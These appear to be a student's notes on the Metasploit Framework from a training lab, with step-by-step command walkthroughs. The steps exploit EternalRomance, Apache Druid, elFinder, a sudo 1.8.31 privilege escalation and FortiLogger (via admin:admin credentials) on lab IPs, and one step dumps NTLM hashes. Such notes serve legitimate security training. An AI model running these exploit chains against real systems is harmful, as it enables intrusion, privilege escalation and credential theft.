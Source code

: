 # Using Metasploit Framework

## Metasploit Project

a) Metasploit Framework -> Free, open-source, community driven

b) Metasploit PRO -> Paid, Commercial use, enterprise oriented

### Architecture

Modules (/usr/share/metasploit-framework/modules)

Plugins (/usr/share/metasploit-framework/plugins/)

Scripts (/usr/share/metasploit-framework/scripts/)

Tools (/usr/share/metasploit-framework/tools/)



### Intro to msfconsole (free)

Launching -> `msfconsole` or `msfconsole -q` (without banner)

Modules -> prepared scripts to exploits

* Syntax -> \<type>/\<os>/\<service>/\<name>&#x20;
  * exploit/windows/ftp/scriptftp\_list
* Search -> `help search` f.e.: `search eternalromance`
* Specific search -> `search type:exploit platform:windows cve:2021 rank:excellent microsoft`
* `Module selection -> nmap -sV <IP> ->` ![](<.gitbook/assets/image (154).png>)
  * `search ms17_010 -> use 0 -> options -> info`
    * `set RHOSTS <IP>... run`

#### Example of usage

`nmap -sVC 10.129.2.141`

`msfconsole -q`

`search eternalromance`

`options`

`set RHOSTS 10.129.2.141`

`set LHOST 10.10.14.153`

`run`

find flag.txt

### Payloads

refers to a module that aids the exploit in returning a shell to the attacker

* exploit -> finds the vuln service
* payload -> establishes a foothold

#### Example of usage

`nmap -sVC 10.129.152.95`

`msfconsole -q`

`search Apache druid`

`use 0`

`options`

`set LHOST 10.10.14.153`

`set RHOSTS 10.129.152.95`

`run`

find flag.txt



## MSF Sessions



### Sessions & Jobs usage

The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

`nmap -sVC 10.129.79.219`

elFinder



Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`msfconsole -q`

`search elfinder`

`use 3`

`set LHOST, RHOSTS`

`run`

`shell`

`whoami` -> www-data



The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

`shell`

`sudo -V` -> version 1.8.31

msf -> `sessions`

msf -> `search sudo 1.8.31`

`use 0`

`set LHOST, SESSION`

`run`

`cd root`

`cat flag.txt`

{% embed url="https://www.youtube.com/watch?v=we0cYx37lMo" %}

### Meterpreter

* meterpreter payload is a specific type of multi-faceted extensible payload that uses DLL injection to establish connection
* difficult to detect using simple checks, can be configured to be persistent across reboots or system changes...
* resides entirely in the memory of the remote host...leaves no traces on HDD
* "swiss army knife of pentesting"



#### Questions

Given IP: `10.129.203.65`

1. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`sudo service postgresql status`

`sudo systemctl start postgresql`

`sudo msfdb init`

`sudo msfdb status`

`sudo msfdb run`

msf -> `db_nmap -sV -p- -T5 -A 10.129.203.65`

<figure><img src=".gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

msf -> `hosts`

<figure><img src=".gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

msf -> `services`

<figure><img src=".gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

5000 -> HTTP -> go to website 10.129.203.65:5000

* it is running FORTILOGGER
* tried credentials admin:admin -> worked

msf -> `search FortiLogger`

msf -> `use 0`

msf -> `set LHOST tun0`

msf -> `set RHOSTS 10.129.203.65`

msf -> `run`

<figure><img src=".gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

`shell`

`whoami`

<figure><img src=".gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

ANSWER: **`nt authority\system`**

2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

msf -> `exit`

msf -> `run post/windows/gather/hashdump`

<figure><img src=".gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>
